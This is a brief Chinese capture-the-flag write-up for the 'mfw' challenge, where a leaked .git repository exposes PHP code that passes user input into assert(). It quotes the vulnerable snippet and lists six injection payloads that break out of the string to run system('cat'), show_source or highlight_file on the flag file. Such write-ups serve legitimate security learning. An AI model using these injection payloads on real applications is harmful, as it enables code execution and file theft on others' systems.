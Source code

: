 # mfw

这题是 `Git` 文件泄漏. 使用 `https://github.com/lijiejie/GitHack` 得到原代码. 发现 `templates/flag.php` 但没有答案.

注意 `index.php` 这一段代码:

```php
$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");
```

没有过滤 `$file`, 可以绕过 `assert` 得到 `flag`, 比如:

```
?file=',system("cat ./templates/flag.php"),'  (注意查看原代码)
?file='.system("cat ./templates/flag.php").'  (注意查看原代码)
?file=',show_source("./templates/flag.php"),'
?file='.show_source("./templates/flag.php").'
?file=',highlight_file("./templates/flag.php"),'
?file='.highlight_file("./templates/flag.php").'
```
